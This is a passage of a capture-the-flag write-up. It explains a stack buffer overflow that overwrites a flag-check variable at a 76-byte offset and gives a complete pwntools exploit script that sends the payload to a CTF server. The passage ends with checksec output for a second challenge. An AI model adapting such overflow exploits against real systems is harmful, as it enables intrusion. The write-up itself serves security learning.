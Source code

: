 ```text
│       │   0x00001201      488d45b0       lea rax, [s]
...
```

The address of our can_read_flag variable is `$rbp-0x4` and the address we're writing to (s) is `$rbp-0x50`.  `0x50-0x4 = 76` which means we need to write 76 bytes before we start overflowing into can_read_flag.  It's also worth noting that we need to write binary 0x00000001 and not the ascii value "1" (which is 0x31).  To do this we can use the pwntools function `p32` which packs an integer into a 32 bit bytestring.  


```python
#!/usr/bin/env python3

from pwn import *
import re

context.log_level = logging.ERROR

exe = ELF("./chall")

context.binary = exe
context.terminal = ["termite","-e"]

def conn():
    if args.LOCAL:
        return process([exe.path])
    else:
        return remote("ctf.cybr.club", 2000)


def main():
    r = conn()

    r.sendline(b"A" * 76 + p32(1))

    print(re.search("(FLAG{.*})",r.recvall().decode()).group(1))


if __name__ == "__main__":
    main()

```
flag: `FLAG{v4r14bl3_0v3rwr173_cea492}`

## pwn2

```text
❯ checksec chall
[*] '/home/sky/Documents/binex/stack_exec/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
